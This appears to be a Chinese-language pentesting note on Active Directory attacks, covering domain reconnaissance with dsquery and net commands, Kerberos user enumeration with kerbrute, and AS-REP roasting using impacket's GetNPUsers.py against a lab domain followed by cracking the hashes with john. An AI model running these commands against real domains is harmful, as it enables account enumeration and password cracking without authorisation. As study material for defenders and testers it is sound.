 ```sh
dsquery group && net group /domain ------>列出该域内分组 
dsquery ou ------>列出该域内组织单位 
dsquery server && net time /domain------>列出该域内域控制器 

NETBIOS 信息收集
SMB 信息收集
空会话信息收集
漏洞信息收集等
```



### 域用户枚举

在kerberos的AS-REQ认证中当cname值中的用户不存在时返回包提示`KDC_ERR_C_PRINCIPAL_UNKNOWN`，所以当我们没有域凭证时，可以通过`Kerberos pre-auth`从域外对域用户进行用户枚举。

使用工具https://github.com/ropnop/kerbrute

<img src="image/image-20230927114433410.png" alt="image-20230927114433410" style="zoom:80%;" />

### AS-REPRoasting

对于域用户，如果设置了选项`Do not require Kerberos preauthentication`(不要求Kerberos预身份认证)，此时向域控制器的88端口发送AS-REQ请求，对收到的AS-REP内容重新组合，能够拼接成”Kerberos 5 AS-REP etype 23”(18200)的格式，接下来可以使用`hashcat`或是`john`对其破解，最终获得该用户的明文口令。**默认情况下该配置不会设置**。

使用impacket工具包`GetNPUsers.py`发现不做Kerberos预认证用户：

```sh
GetNPUsers.py -dc-ip 192.168.17.134 0ne.test/zhangsan:zs@123456
GetNPUsers.py -dc-ip 192.168.17.134 0ne.test/zhangsan:zs@123456 -format john -outputfile NPhashes
john --wordlist=/usr/share/wordlists/FastPwds.txt NPhashes

#没有域凭证时,可以用户名枚举来查找未设置预认证的账号
GetNPUsers.py -dc-ip 192.168.1.250 y5neko.com/ -usersfile users.txt

```
